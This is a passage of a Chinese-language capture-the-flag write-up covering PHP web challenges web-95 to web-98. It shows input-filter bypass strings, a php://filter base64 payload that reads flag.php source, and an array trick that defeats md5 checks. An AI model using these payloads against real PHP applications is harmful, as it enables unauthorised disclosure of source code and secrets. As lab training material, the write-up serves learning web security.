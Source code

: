 ![image-20240409161434098](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404091614175.png)

------

### web-95

把点过滤了，不过还是能在前面加空格、换行或者加减号.

```php
?num= 010574
?num=%0a010574
?num=+010574
```

![image-20240409213427619](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404092134708.png)

------

### web-96

可以用php伪协议来做

传入?u=php://filter/convert.base64-encode/resource=flag.php

![image-20240409213931618](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404092139703.png)

会得到一串base64编码，再通过解码就能得到flag

![image-20240409214016225](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404092140263.png)

其它payload

```
./flag.php                            相对路径
/var/www/html/flag.php                绝对路径
php://filter/resource=flag.php        php伪协议 
php://filter/read=convert.base64-encode/resource=flag.php

```

------

### web-97

![image-20240409214614357](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404092146409.png)

利用md5不能识别数组，且返回false来绕过md5得到flag



------

### web-98

![image-20240409215230746](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404092152768.png)
